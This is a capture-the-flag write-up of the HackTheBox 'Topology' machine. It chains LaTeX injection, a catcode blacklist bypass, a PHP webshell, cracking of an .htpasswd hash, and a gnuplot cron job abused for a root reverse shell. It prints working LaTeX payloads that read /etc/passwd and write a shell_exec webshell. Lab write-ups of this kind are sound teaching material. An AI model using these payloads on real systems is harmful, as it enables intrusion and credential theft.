# HackTheBox - Topology

I entered the IP in the webbrowser and saw a university website.


I looked at the page and saw a link to the __LaTeX Equation Generator__.

__latex.topology.htb/equation.php__



Furthermore I discovered that in the webroot __directory listing__ is open.



OK, so we are dealing with __Latex__.

The page expects an input and spits us a `.png` image out.

I had read a few times about __latex injections__ but never played around with it.

First I tried it wild with some payloads I found and found out that a few terms are blacklisted here.

For example, `\write` cannot be used and we get the following output.



But `write` without preceding backslash works.

I read up online, gathered different online resources on __latex injections__ and tried to get the blacklist.

Helpful was this online resource I found:

[https://hovav.net/ucsd/dist/texhack.pdf](https://hovav.net/ucsd/dist/texhack.pdf)

At this point it was really a lot of try and error.

First I found a payload that showed me the first line of a system file like `/etc/passwd`.

```LaTeX
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

I urlencoded it, appended it to the `eqn=` parameter of the URL and in burp I got to see the first line of the `/etc/passwd`.



Well, that's already a start...

Later I found another payload with which I could read a little more than just the first line.

However, I tried for a long time to find any files that would get me further and got stuck again.

Well, it would be cool to be able to write on the system to place a webshell.

Let's remember the blacklist.

`\write` causes problems and `write` does not.

In the document I found a pretty cool __bypass__ using __catcode__.

With `\catcodeX=0` I was able to set the crucial bypass.

This line causes LaTeX to treat the character `X` the same as the character `\` and I was able to bypass the blacklist with `Xwrite`.

My payload was now as follows:

```latex
\catcode`X=0
\newwrite\outfile
\openout\outfile=shell.php
Xwrite\outfile{<?php echo shell_exec($_GET['cmd']); ?>}
\closeout\outfile
```

I urlencoded it and sent it to the burp repeater and got my long awaited webshell under `/tempfiles`.



From the placed webshell I established a reverse-shell and operated now under the user `www-data`.



## www-data -> vdaisley

Under `/var/www/dev` I found a file `.htpasswd`.



On the [Hashcat Examples](https://hashcat.net/wiki/doku.php?id=example_hashes) page I looked which hashtype we are dealing with here and cracked the password.



I logged in via SSH and got the user flag.



## vdaisley -> root

With `pspy` a frequent job aroused my attention.



We can see that `find` is used to search for `.plt` files under `/opt/gnuplot` and that these are executed via `gnuplot`.

I read up on gnuplot and came across the following interesting documentation that we can also run system commands through it.

[gnuplot](http://gnuplot.info/docs_5.5/loc18483.html)

I wrote a `rev.plt` file with the following content into the `/opt/gnuplot` directory.



I got reverse shell as root and got the final flag.


